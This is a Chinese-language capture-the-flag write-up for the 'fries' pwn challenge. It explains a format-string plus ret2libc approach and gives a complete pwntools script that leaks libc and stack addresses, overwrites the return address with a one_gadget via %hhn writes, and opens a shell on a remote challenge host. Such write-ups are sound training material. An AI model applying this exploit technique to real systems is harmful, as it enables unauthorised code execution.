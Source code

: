 # fries

## 文件分析

保护全开  
ghidra分析为64位程序

## 解题思路

这道题考察格式化字符串+ret2libc，共有8次机会，可以先leak栈地址和libc地址，
再把返回地址写成打开shell，此处使用one_gadget可以只利用一次返回完成攻击

## 踩过的坑

本地能过的脚本，远端换了多少ogg就是不行，最后发现是栈上内容不一样！
下次还是先patchelf把libc打成目标的再本地调试吧（一开始偷懒，本地没patch）

## EXPLOIT

```python
from pwn import *

def payload(lo):
    global sh
    if lo:
        sh = process('./fries')
        if lo & 0b10:
            gdb.attach(sh, gdbscript='b *$rebase(0x1300)')
    else:
        sh = remote('43.249.195.138', 21942)
    oneGadgetOffset = 0xebc85
    libc = ELF('./libc.so.6')

    # payload 1, enter adventure()
    sh.sendline(b'fries\0')

    # payload 2, leak libc and stackAddr
    sh.recvuntil(b'pier\n')
    sh.sendline(b'%15$p%24$p')

    libcBase = int(sh.recv(14), 16) - libc.symbols['_IO_2_1_stdout_']
    ogg = libcBase + oneGadgetOffset
    stackRet = int(sh.recv(14), 16) - 0x48

    # payload 3 ~ 8, make one_gadget on retAddr
    mask = 0xff
    for i in range(6):
        sh.recvuntil(b'pier\n')
        count = (ogg & mask) >> 8 * i
        sh.sendline(f'%{count}c%10$hhn'.ljust(16).encode() + p64(stackRet + i))
        mask <<= 8

    # payload 9, discard remaining 1 read
    sh.recvuntil(b'pier\n')
    sh.sendline(b'just for fun\0')

    sh.interactive()
```

Done.
